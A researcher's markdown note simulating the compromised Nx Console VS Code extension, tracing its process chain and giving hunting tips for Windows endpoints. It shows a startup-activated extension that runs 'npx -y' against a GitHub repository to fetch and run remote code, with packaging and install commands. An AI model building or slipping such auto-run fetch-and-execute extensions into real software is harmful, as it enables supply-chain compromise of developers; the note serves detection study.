





# IDE Extensions VSCode

Nowadays, there are lot of supply chain compromised which includes the popular IDE extension compromised in which these extensions been inserted with malicious code. The user will be tricked to install or update the malicious version of the extension and the malicious code will be executed afterwards.

This note will be focused on the vscode extension that execute malicious code.

## Description

Modified the compromised nx console vscode plugin as example.

Simulated the remote repository [ghoulgy/repo_test](https://github.com/ghoulgy/repo_test) which only drop a `test.txt` in user `Downloads` folder.

The code will be executed using the API `ShellExecution`



In order to create your own vsix package, run the command below to install the vsce (Visual Studio Code Extensions).

```cmd
npm install -g @vscode/vsce
```

Go to your folder which contains `package.json` and execute the command below.

Created a test repo in my account named `repo_test` that simulate node target branch.

```cmd
vsce package
```

Install the vsix package into your vscode

```cmd
code --install-extension <VSIX_PACKAGE_NAME>
```

Once the installation finished you will see the `npx` in the screenshot mentioned above command executed automatically.

In our case, the process chain is Code.exe -> powershell.exe (My default vscode terminal integrated shell) -> node.exe



The execution of `npx` will be handle by the `node.exe` (PID 6976) process with the command.

```cmd
"C:\Program Files\nodejs\node.exe" "C:\Program Files\nodejs/node_modules/npm/bin/npx-cli.js" -y github:ghoulgy/repo_test`
```



After the git done its work, a new cmd.exe (PID 7652) that most probably doing the hardware checks.

```cmd
C:\Windows\system32\cmd.exe /d /s /c node install.js
```

The npx installed code (Usually store in the `npm_cache` folder) will be executed another newly spawned `node.exe` (PID 5544)



The installed vscode extension can be found under folder path `%USERPROFILE%\.vscode\extensions\`

Inside the main extensions folder, there is a `extensions.json` that contains all metadata of the installed vscode extension.

```json
[{
    "identifier": {
        "id": "ms-python.vscode-pylance",
        "uuid": "364d2426-116a-433a-a5d8-a5098dc3afbd"
    },
    "version": "2026.2.1",
    "location": {
        "$mid": 1,
        "path": "/c:/Users/User/.vscode/extensions/ms-python.vscode-pylance-2026.2.1",
        "scheme": "file"
    },
    "relativeLocation": "ms-python.vscode-pylance-2026.2.1",
    "metadata": {
        "installedTimestamp": 1999344167999,
        "pinned": false,
        "source": "gallery",
        "id": "364d2426-116a-433a-a5d8-a5098dc3afbd",
        "publisherId": "998b010b-e2af-44a5-a6cd-0b5fd3b9b6f8",
        "publisherDisplayName": "Microsoft",
        "targetPlatform": "undefined",
        "updated": false,
        "private": false,
        "isPreReleaseVersion": false,
        "hasPreReleaseVersion": false
    }
}, {
    "identifier": {
        "id": "nx-notepad.nx-notepad"
    },
    "version": "0.0.3",
    "location": {
        "$mid": 1,
        "fsPath": "c:\\Users\\User\\.vscode\\extensions\\nx-notepad.nx-notepad-0.0.3",
        "_sep": 1,
        "external": "file:///c%3A/Users/User/.vscode/extensions/nx-notepad.nx-notepad-0.0.3",
        "path": "/c:/Users/User/.vscode/extensions/nx-notepad.nx-notepad-0.0.3",
        "scheme": "file"
    },
    "relativeLocation": "nx-notepad.nx-notepad-0.0.3",
    "metadata": {
        "installedTimestamp": 1999121293499,
        "pinned": true,
        "source": "vsix"
    }
}]
```

Others will be the folder of the extension installed e.g. `%USERPROFILE%\.vscode\extensions\nx-notepad.nx-notepad-0.0.3`

> Note that the folder path `.vscode\extensions` is the default location for the extension, which might be different due to the settings.

Every extension folder contains a `package.json`, which is the place can find the code entry point of the extension.

```json
{
	"name": "nx-notepad",
	"displayName": "Nx Notepad",
	"description": "Nx Console-style VSCode extension that launches Notepad via ShellExecution",
	"version": "0.0.3",
	"publisher": "nx-notepad",
	"engines": {
		"vscode": "^1.85.0"
	},
	"categories": [
		"Other"
	],
	"activationEvents": [
		"onStartupFinished"
	],
	"main": "./dist/main.js", <------------- Code entry point
    ...
```

## Hunting

Checking for the suspicious child process spawned by `Code.exe`, for Windows environment, it could be `powershell.exe` or `cmd.exe` depands on your default shell setting on your IDE. The suspicious activities usually lies in the command line or the child process spawned by `powershell.exe` or `cmd.exe` (In this case is the `npx -y` on the remote Github repository)

Check `git.exe` process command spawned under `node.exe`



## Sidenotes

powershell.exe command under node.exe (PID 6180)

This will spawned the `csc.exe` afterwards since it is a C# based script.

```powershell
powershell -c "(Add-Type -MemberDefinition '[DllImport(\"kernel32.dll\")] public static extern bool IsProcessorFeaturePresent(int ProcessorFeature);' -Name 'Kernel32' -Namespace 'Win32' -PassThru)::IsProcessorFeaturePresent(40);"
```

Git command executed (First layer only, since there is alot of child process under them like `sh.exe`, `git-remote-https.exe` etc.)

|PID|Command|
|---|---|
|4976|git --no-replace-objects ls-remote https://github.com/ghoulgy/repo_test.git
|6084|git --no-replace-objects clone https://github.com/ghoulgy/repo_test.git %USERPROFILE%\AppData\Local\npm-cache\_cacache\tmp\git-cloneZIS147 --recurse-submodules --depth=1 --config core.longpaths=true|
|4084|git --no-replace-objects clone https://github.com/ghoulgy/repo_test.git %USERPROFILE%\AppData\Local\npm-cache\_cacache\tmp\git-clone9HaVHN --recurse-submodules --depth=1 --config core.longpaths=true|
|6380|git --no-replace-objects clone https://github.com/ghoulgy/repo_test.git %USERPROFILE%\AppData\Local\npm-cache\_cacache\tmp\git-cloneqkRuFN --recurse-submodules --depth=1 --config core.longpaths=true|

## Reference(s)

[nx console VSCode extension compromised](https://www.stepsecurity.io/blog/nx-console-vs-code-extension-compromised)

[vsce](https://code.visualstudio.com/api/working-with-extensions/publishing-extension#vsce)